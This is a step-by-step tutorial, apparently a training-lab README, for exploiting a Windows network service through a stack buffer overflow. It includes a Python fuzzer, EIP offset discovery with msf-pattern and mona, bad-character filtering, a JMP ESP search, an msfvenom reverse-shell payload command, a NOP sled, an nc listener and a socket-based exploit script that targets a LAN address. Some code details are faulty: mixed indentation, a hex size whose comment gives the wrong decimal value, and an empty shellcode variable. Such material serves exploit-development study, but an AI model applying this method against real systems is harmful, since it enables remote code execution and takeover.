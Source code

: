 ##### BufferOverflow

To exploit this application via buffer overflow, firstly the application must be crashed. This is done by using the fuzzer below. 
This fuzzer will send an array of increasing values, where the value is "A", until the application crashes and will leave you with the correct number of bytes needed
to crash the application.

fuzzy.py

```
#!/usr/bin/python

import socket, time, sys

IP = "<IP>"
PORT = <PORT>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((IP, PORT))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string)
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + IP + ":" + str(PORT))
        sys.exit(0)
    time.sleep(1)
 ```
    
   
   Once the application has been crashed. It is time to overwrite and take control of the EIP pointer. To do this I will create a unique pattern using
   msf-pattern-create, using the greatest size of bytes used to crash the application via the fuzzer.

Create a working directory for !mona
```    
!mona config -set workingfolder c:\mona\%p
```

Create a pattern to overwrite

```
msf-pattern_create -l <i.e 2560 or 0xA00>
```

Find the offset

```
msf-pattern_offset -l <i.e 2560 or 0xA00> -q <i.e 33794332>
```

Once the offset has been found. In this case 2288, over the original 2560.

Creating the inputBuffer

filler = 'A' * 0x8f0 #2288   This is the space to write to get to EIP
eip = 'B' * 0x4      #4      This is the space we need to take over EIP
buffer = 'C' * 0x616 #268    This is for Shellcode ;~)

This should equal 2560 as the original size of the pattern created. 

To test this I have created the exploit, working primarily into this file as I go forward.

exploit.py 
```
#!usr/bin/python

import socket
import time
import sys


try:
	print "Checking...."

	filler = 'A' * 0x8f0 #2288  
  eip = 'B' * 0x4     
  buffer = 'C' * 0x616 #268  

	inputBuffer = filler + eip + buffer

	content = inputBuffer 

	buffer+= content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.178.10", 80))
	s.send(buffer)

	s.close()

	print 'Done! =]'

except:
	print "No Connection --------"
	sys.exit()
  ```
Running exploit.py, EIP should now be equal to 42424242 (hex value of “BBBB”). I now control EIP!

Now that EIP has been controlled, it is critical to gather a list of bad characters, when the shellcode is generated any invalid characters could
stop the payload from being read through the application. 

Finding bad characters with !mona. '\x00' is always considered a bad character as it will truncate shellcode when executed.

Creating a list of badchars using !mona
```
!mona bytearray -b "\x00"
``` 
This will exclude the bad characters
```
!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
``` 
This will compare the remaining list against the application. 

Repeat those two steps until the results status returns Unmodified, this indicates that no more bad characters exist.

Finding JMP ESP

Now that control of EIP has been taken, and all bad characters have been eliminated, the next thing needed is an address to jump to ESP.
This can found using !mona.

To load mona modules:
```
!mona modules
```

Finding a .dll where Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a 
JMP ESP (FFE4), inside the dll :
```
!mona find -s "\xff\xe4" -m <DLL>
```
Return address
Choose an address in the results and update exploit.py :
Setting the retn variable to the address, written backward (little-endian)

```
JMP ESP address

0x625011af

# exploit.py
eip = "\xaf\x11\x50\x62"
```

Generate the shellcode 
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> –e x86/shikata_ga_nai -b "<BAD_CHARS>" -f c
```

Prepend NOPs

A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, \x90 represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.
```
padding = "\x90" * 16
```

Start an nc listener on port 1234

```
sudo nc -lnvp 1234
```

Final Exploit

exploit.py 
```
#!usr/bin/python

import socket
import time
import sys


try:
	print "Checking...."

	filler = 'A' * FillerNum 
  eip = ''  EIP ADDRESS 
  buffer = 'C' * 0x616 #268  
  padding = "\x90" * 16
  
  ## Generate Shellcode Command: msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> –e x86/shikata_ga_nai -b "<BAD_CHARS>" -f c
  ## Bad Charecters: 
  
  shellcode = 
  
	inputBuffer = filler + eip + padding + shellcode + buffer

	content = inputBuffer 

	buffer += content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.178.10", 80))
	s.send(buffer)

	s.close()

	print 'Done! =]'

except:
	print "No Connection --------"
	sys.exit()
  ```




